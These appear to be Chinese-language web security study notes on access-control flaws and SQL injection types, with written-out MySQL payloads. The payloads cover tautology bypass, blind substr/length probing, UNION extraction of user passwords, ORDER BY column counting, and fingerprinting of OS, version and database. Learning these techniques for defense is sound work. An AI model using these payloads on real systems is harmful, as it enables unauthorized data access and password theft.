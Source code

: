 会话令牌生成安全风险

## 访问控制漏洞
越权:水平越权与垂直越权

## SQL注入漏洞

![](assets/xkcd-sql-injection.png)
- SQL注入原理
- 注入过程
- 注入防御方法

### SQL注入类型
重言式(永真式)注入(tautology): 条件表达式结果永远判定为真，从而绕过认证或访问机制
playload -> db query -> result
![](assets/tautology.png)
当前数据库名长度
`substr(str,start, count)`
`1' and length(database()) >= 4#`
?`id=' and substr(database(),2,1) >= 97`
联合查询注入
`select name from users where id = '1' union select password from users#'`
- order by语句猜列数
`SELECT user_name FROM Users WHERE id = '`1' order by 2#`'`
`0' union select null, null%23`
查询主机系统版本信息
`0' union select null, @@global.version_compile_os from mysql.user#`
查询当前数据库名
`0' union select null, concat_ws(":",user(), version(), database())%23`